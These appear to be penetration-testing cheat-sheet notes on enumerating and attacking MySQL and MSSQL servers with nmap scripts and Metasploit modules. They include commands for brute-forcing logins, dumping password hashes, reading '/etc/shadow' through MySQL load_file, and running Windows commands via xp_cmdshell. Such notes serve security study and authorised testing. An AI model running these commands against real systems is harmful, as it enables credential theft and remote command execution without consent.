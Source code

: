 **`wget** http://<ip>/index.html` - downloads the web page source

**`curl** http://<ip>` - downloads the web page source

## MySQL

MySQL is DBMS (database management system) used for managing data in the SQL language

`mysql -h <ip> -u <username>` (`-u root` must be checked, `-p <password>` if needed)

After accessing:

- `show databases;`
- `use <database_name>;` - selecting a database
- `select load_file(”/etc/shadow”);`- loading files

`mysql_writable_dirs`,  `mysql_hashdump`, `mysql_file_enum` - 3 useful **metasploit** modules

Nmap Scripts:

- `nmap --script=mysql-empty-password -p 3306 <ip>` - gives **users** that have empty passwords
- `nmap --script=mysql-info -p 3306 <ip>`
- `nmap --script=mysql-users —script-args=mysqluser=<user>,mysqlpass=<password> -p 3306 <ip>` - gives users
- `nmap --script=mysql-databases —script-args=mysqluser=<user>,mysqlpass=<password> -p 3306 <ip>` - gives databases
- `nmap --script=mysql-variables —script-args=mysqluser=<user>,mysqlpass=<password> -p 3306 <ip>` - gives variables
- `nmap —script=mysql-audit —script-args=mysql-audit.username=<user>,mysql-audit.password=<pass>,mysql-audit.filename=/usr/share/nmap/nselib/data/mysql-cis.audit -p 3306 <ip>`
- `nmap --script=mysql-dump-hashes —script-args=username=<user>,password=<password> -p 3306 <ip>`

We use arguments for more **access**

A hash example: $6$eoOI5IAu$S1eBFuRRxwD7qEcUIjHxV7Rkj9OXaIGbIOiHsjPZF2uGmGBjRQ3rrQY3/6M.fWHRBHRntsKhgqnClY2.KC.vA/

- **First** $ indicates a hash algorithm
- **Second** $ indicates a salt for a hash
- **Third** $ is the actual hash
- Actual hash must be sent **without** a $ sign

### MSSQL

Nmap Scripts:

- `nmap —script=ms-sql-info -p 1433 <ip>`
- `nmap —script=ms-sql-ntlm-info --script-args=mssql.instance-port=1433 -p 1433 <ip>`
- `nmap —script=ms-sql-brute --script-args=userdb=<user_list>,passdb=<pass_list> -p 1433 <ip>`
- `nmap —script=ms-sql-empty-password -p 1433 <ip>`
- `nmap —script=ms-sql-query --script-args=mssql.username=username,mssql.password=password,ms-sql-query.query=<query> -p 1433 <ip>`
- `nmap --script=ms-sql-dump-hashes —script-args=mssql.username=<user>,mssql.password=<password> -p 1433 <ip>`
- `nmap —script=ms-sql-xp-cmdshell —script-args=mssql.username=<username>,mssql.password=<password>,ms-sql-xp-cmdshell.cmd=<windows_command> -p1433 <ip>`
